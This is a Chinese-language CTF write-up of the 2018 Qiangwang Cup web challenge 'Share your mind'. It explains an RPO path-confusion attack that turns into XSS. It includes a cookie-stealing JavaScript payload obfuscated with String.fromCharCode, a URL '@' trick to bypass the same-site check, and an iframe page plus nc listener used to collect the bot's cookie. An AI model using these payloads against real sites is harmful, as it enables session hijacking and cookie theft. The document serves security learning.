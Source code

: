 ```yaml
---
title: 第二届强网杯Web部分 Writeup
date: 2018-03-27 18:06:02
tags: [CTF, writeup, Web, RPO]
categories: Security
---
```

强网杯Web部分的题难度不小，还是比较有意思的，收获很大，这里简单分析一下其中两道题

### Share your mind
```
http://39.107.33.96:20000
Please help me find the vulnerability before I finish this site！
hint：xss bot使用phantomjs，版本2.1.1
hint2 : xss的点不在report页面
```
根据writeup描述，这是一道RPO攻击的题目，以前没接触过，趁机学习一波

首先注册用户登录，查看源码，最后几行，可以看到引用js的时候这里使用了相对路径，构成RPO攻击的条件，简单尝试几个url发现确实可以利用。

RPO攻击的原理可以参考

https://www.cnblogs.com/iamstudy/articles/ctf_writeup_rpo_attack.html

http://blog.nsfocus.net/rpo-attack/

访问`http://39.107.33.96:20000/index.php/view/article/1226`的时候加载`jquery.min.js`的路径可以看到是正常的，

![jquery.js](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/oHZtz)
当访问`http://39.107.33.96:20000/index.php/view/article/1226/..%2f..%2f..%2f..%2findex.php`的时候浏览器尝试加载`..%2f..%2f..%2f..%2findex.php/static/js/jquery.min.js`这个数据，而服务端则往上读取三层路径，加载的是article的页面，如果article页面存在xss的话就会被加载，题目也正好满足要求，所以我们创建一篇文章写入获取cookie的js,利用这个url让服务器请求这篇文章，弹给我们cookie

![jquery.js](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/pa5qf)

因为页面对一些特殊符号做了编码过滤，所以我们使用`String.fromCharCode()`方法从ascii码来加载js
```
window.location.href=String.fromCharCode(some ascii code) + document.cookie;
```

![md5](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/SVQMd)
这里有两个点的绕过：

- url部分做了同站检测，通过`http://39.107.33.96:20000@x.x.x.x`的形式绕过
- 这里的code每次刷新都是随机的，而且通过`===`比较，没法通过弱类型绕过，所以我们生成所有6位字符的MD5，搜索前6位符合条件的就行(实际上生成了大约200M的文件基本够用了)

根据提示要访问`/QWB_fl4g/QWB/`页面，所以我们在vps上建一个带iframe的页面
```
<img src='http://39.107.33.96:20000/QWB_fl4g/QWB/index.php'>  
<iframe src='http://39.107.33.96:20000/QWB_fl4g/QWB/index.php/..%2f..%2f../index.php/view/article/1462/..%2f..%2f..%2f..%2findex.php'></iframe>
```
nc监听端口，xssbot会先访问`/QWB_fl4g/QWB/index.php`，带上cookie后再访问article，触发xss，我们就能收到cookie
